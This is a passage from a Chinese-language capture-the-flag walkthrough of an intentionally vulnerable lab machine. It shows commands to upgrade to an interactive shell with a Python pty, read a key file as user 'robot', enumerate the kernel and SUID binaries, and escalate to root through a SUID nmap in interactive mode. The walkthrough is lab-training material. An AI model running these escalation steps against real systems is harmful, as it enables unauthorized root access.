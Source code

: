 尝试登录不了，扩产成可执行的shell：

```shell
python -c 'import pty; pty.spawn("/bin/sh")'
su robot
cat /home/robot/key-2-of-3.txt
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403871.png" alt="image-20240222135529341" style="zoom:50%;" />

查看内核版本以及`suid`漏洞是否存在：

```
uname -a
lsb_release -a
find / -perm -u=s -type f 2>/dev/null
```

```shell
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.2 LTS
Release:        14.04
Codename:       trusty

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

`nmap`是suid权限的，可以尝试利用！！！

```shell
nmap -v
# Starting nmap 3.81 ( http://www.insecure.org/nmap/ ) at 2024-02-22 06:00 UTC
# No target machines/networks specified!
# QUITTING!
nmap --interactive
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403872.png" alt="image-20240222140201083" style="zoom:50%;" />

然后获取最后一个key:

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403873.png" alt="image-20240222140308994" style="zoom:50%;" />

